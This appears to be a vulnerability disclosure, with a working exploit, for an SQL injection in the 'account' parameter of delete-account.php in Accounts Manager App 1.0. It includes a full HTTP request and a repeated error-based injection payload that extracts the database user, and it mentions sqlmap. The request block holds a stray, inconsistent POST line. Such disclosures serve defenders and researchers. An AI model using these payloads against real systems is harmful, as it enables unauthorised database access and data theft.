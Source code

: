 # Accounts Manager App - delete-account.php 'account' SQL inject

#### Exploit Title: Accounts Manager App - delete-account.php 'account' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17482/accounts-manager-app-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17482&title=Accounts+Manager+App+Using+PHP+and+MySQL+with+Source+Code

#### Version: Accounts Manager App 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Accounts Manager App does not filter the content correctly at the "endpoint/delete-account.php" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET http://192.168.67.35:8093/endpoint/delete-account.php?account=7'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、Visit the homepage, click to delete the entry, and after capturing the package, find that the file used is delete-account.php

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-App/images/sql2.png)

2、Upon reviewing the source code, it was discovered that the account parameter was directly concatenated into the SQL statement

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-App/images/sql4.png)

4、Construct error injection, annotate database username, and successfully reproduce SQL injection vulnerability.

payload:`account=6'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-App/images/sql1.png)

5、You can also directly use the sqlmap tool to run the results

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-App/images/sql3.png)
